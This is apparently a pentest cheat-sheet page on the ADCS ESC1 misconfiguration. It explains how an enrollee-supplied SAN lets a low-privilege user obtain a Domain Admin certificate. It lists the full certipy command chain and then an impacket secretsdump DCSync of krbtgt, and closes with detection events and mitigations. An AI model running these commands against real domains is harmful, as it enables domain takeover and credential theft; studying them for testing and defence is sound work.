

# ADCS ESC1

### Affected object / attribute
**Certificate template** with **enrollee-supplied SAN**, **Client Authentication EKU**, and low-priv enrolment rights.

### Concept (deep)
The template allows the requester to specify a **Subject Alternative Name**. The attacker requests a certificate with `administrator@corp.local` as the SAN. The CA issues a certificate that authenticates as the Domain Admin. The certificate is then used with **PKINIT** to obtain a TGT and the account’s NT hash.

### Attack flow (Mermaid)


### Exhaustive commands
```bash
# ── Enumerate to find the vulnerable template ───────────────────────
certipy find -u lowpriv@corp.local -p 'Password123!' \
  -dc-ip 10.10.10.5 -vulnerable -stdout

# ── Request the certificate ──────────────────────────────────────────
certipy req -u lowpriv@corp.local -p 'Password123!' \
  -dc-ip 10.10.10.5 -ca CORP-CA \
  -template VulnerableTemplate \
  -upn administrator@corp.local \
  -sid S-1-5-21-X-500
# Writes administrator.pfx

# ── Authenticate with the PFX ────────────────────────────────────────
certipy auth -pfx administrator.pfx \
  -username administrator -domain corp.local -dc-ip 10.10.10.5
# Returns the NT hash and a TGT

# ── DCSync with the obtained hash ────────────────────────────────────
impacket-secretsdump -just-dc-user krbtgt \
  corp.local/administrator@10.10.10.5 -hashes :<nt>
```

### Impact
- **Domain Admin NT hash and TGT** in a single enrolment.

### Detection and defensive measures
- **4886/4887** with **SAN ≠ requester**.
- Require **manager approval** (`CT_FLAG_PEND_ALL_REQUESTS`) and remove the **ENROLLEE_SUPPLIES_SUBJECT** flag.
- **Enforce SID binding** (KB5014754 full enforcement).

---
